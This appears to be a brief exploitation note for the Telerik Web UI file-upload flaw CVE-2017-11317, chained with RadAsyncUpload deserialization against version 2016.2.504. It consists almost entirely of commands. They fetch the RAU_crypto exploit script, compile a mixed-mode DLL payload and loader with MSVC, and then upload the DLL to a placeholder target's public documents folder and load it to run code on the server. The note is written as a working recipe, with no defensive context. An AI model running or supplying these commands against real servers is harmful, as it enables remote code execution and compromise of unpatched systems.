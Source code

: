 # Telerik Web UI Unrestricted File Upload (CVE-2017-11317) + Telerik Web UI RadAsyncUpload Deserialization 

## Telerik version: 2016.2.504

## Target
https://target

## Proxy
http://127.0.0.1:8080

## Command
[https://github.com/bao7uo/MixedUp](https://github.com/bao7uo/MixedUp)
```
curl -OL https://github.com/bao7uo/RAU_crypto/blob/master/RAU_crypto.py

"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr /LD MixedAssembly.cpp -o MixedAssembly64.dll
"C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64\cl.exe" /clr load.cpp

python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

python RAU_crypto.py -L c:/users/public/documents/MixedAssembly64.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

python RAU_crypto.py -P c:/users/public/documents/ 2016.2.504 MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080

python RAU_crypto.py -L c:/users/public/documents/MixedAssembly32.dll https://target/Telerik.Web.UI.WebResource.axd?type=rau http://127.0.0.1:8080
```
